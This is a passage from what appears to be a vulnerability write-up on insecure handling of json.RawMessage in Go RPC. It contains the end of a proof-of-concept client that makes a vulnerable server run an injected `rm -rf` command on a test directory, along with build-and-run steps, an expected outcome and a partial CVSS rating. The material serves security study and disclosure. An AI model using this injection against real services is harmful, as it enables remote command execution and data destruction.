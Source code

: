 ```go
		Params: rawMaliciousParams,
	}

	var reply string
	fmt.Printf("Attempting to execute command: %s %s\n", cmdToExecute, strings.Join(argsToExecute, " "))
	err = client.Call(req.Method, req, &reply)
	if err!= nil {
		fmt.Printf("RPC call failed: %v\n", err)
		fmt.Printf("Server Reply (Error): %s\n", reply)
		// If the command fails on the server, the reply might still contain error output
	} else {
		fmt.Printf("RPC call successful.\nServer Reply:\n%s\n", reply)
	}

	// Verify if the command had an effect (e.g., check if the directory was deleted)
	if runtime.GOOS!= "windows" {
		if _, err := os.Stat("/tmp/malicious_test_dir"); os.IsNotExist(err) {
			fmt.Println("Verification: '/tmp/malicious_test_dir' was successfully deleted (or never existed).")
		} else {
			fmt.Println("Verification: '/tmp/malicious_test_dir' still exists or error checking it.")
		}
	}
}
```

**Execution Steps:**

1. **Compile the Server:** Save the vulnerable server code as `server.go` and compile it: `go build -o server server.go`
2. **Run the Server:** Execute the server: `./server`
3. **Compile the Client:** Save the malicious client code as `client.go` and compile it: `go build -o client client.go`
4. **Run the Client:** Execute the client: `./client`

**Expected Outcome:**

The client will send the crafted RPC request. The server, due to its improper handling of `json.RawMessage` and lack of validation, will attempt to execute the `rm -rf /tmp/malicious_test_dir` (or `dir` on Windows) command. The client will receive the output of this command, demonstrating arbitrary code execution. On a Linux/macOS system, the `/tmp/malicious_test_dir` will be created (if it doesn't exist) and then deleted by the malicious command.

## 11. Risk Classification

The improper handling of `json.RawMessage` in Go RPC presents a significant security risk, primarily classified as an Insecure Deserialization vulnerability, but also leading to various injection attacks.

- **CVSSv3.1 Score:** High (Base Score: 8.0 - 9.0)
    - **Attack Vector (AV): Network (N)**: The vulnerability is exploitable remotely over the network, as RPC services are typically exposed to network communication.
    - **Attack Complexity (AC): Low (L)**: Exploitation often requires minimal effort and no specialized conditions beyond sending a crafted JSON payload.
    - **Privileges Required (PR): None (N) or Low (L)**: An attacker typically does not need any prior authentication or elevated privileges to interact with the RPC endpoint, or only requires basic user privileges to trigger the vulnerability.
    - **User Interaction (UI): None (N)**: No user interaction is required for a successful attack.
    - **Scope (S): Unchanged (U)**: The vulnerability typically remains within the scope of the affected component, though the impact can extend to the entire system.
    - **Confidentiality Impact (C): High (H)**: Successful exploitation can lead to unauthorized disclosure of sensitive information, including system files, configuration data, or user credentials.